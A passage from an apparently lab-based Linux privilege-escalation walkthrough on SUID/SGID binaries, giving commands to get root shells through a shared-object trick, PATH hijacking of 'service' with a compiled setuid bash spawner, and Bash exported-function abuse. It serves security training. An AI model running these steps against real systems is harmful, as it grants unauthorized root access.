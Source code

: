 Execute the suid-so executable again, and note that this time, instead of a progress bar, we get a root shell.
```sh
/usr/local/bin/suid-so
```

# SUID / SGID Executables - Environment Variables
The /usr/local/bin/suid-env executable can be exploited due to it inheriting the user's PATH environment variable and attempting to execute programs without 
specifying an absolute path.

First, execute the file and note that it seems to be trying to start the apache2 webserver:
```sh
/usr/local/bin/suid-env
```

Run strings on the file to look for strings of printable characters:
```sh
strings /usr/local/bin/suid-env
```

One line ("service apache2 start") suggests that the service executable is being called to start the webserver, however the full path of the executable 
(/usr/sbin/service) is not being used.

Compile the code located at ```/home/user/tools/suid/service.c``` into an executable called service. This code simply spawns a Bash shell:
```c
int main() {
        setuid(0);
        system("/bin/bash -p");
}
```

```sh
gcc -o service /home/user/tools/suid/service.c
```

Prepend the current directory (or where the new service executable is located) to the PATH variable, and run the suid-env executable to gain a root shell:
```sh
PATH=.:$PATH /usr/local/bin/suid-env
```

# SUID / SGID Executables - Abusing Shell Features (#1)
The ```/usr/local/bin/suid-env2``` executable is identical to ```/usr/local/bin/suid-env``` except that it uses the absolute path of the service executable 
(/usr/sbin/service) to start the apache2 webserver.

Verify this with strings:
```sh
strings /usr/local/bin/suid-env2
```

In Bash versions <4.2-048 **it is possible to define shell functions with names that resemble file paths**, then export those functions so that they are used 
instead of any actual executable at that file path.
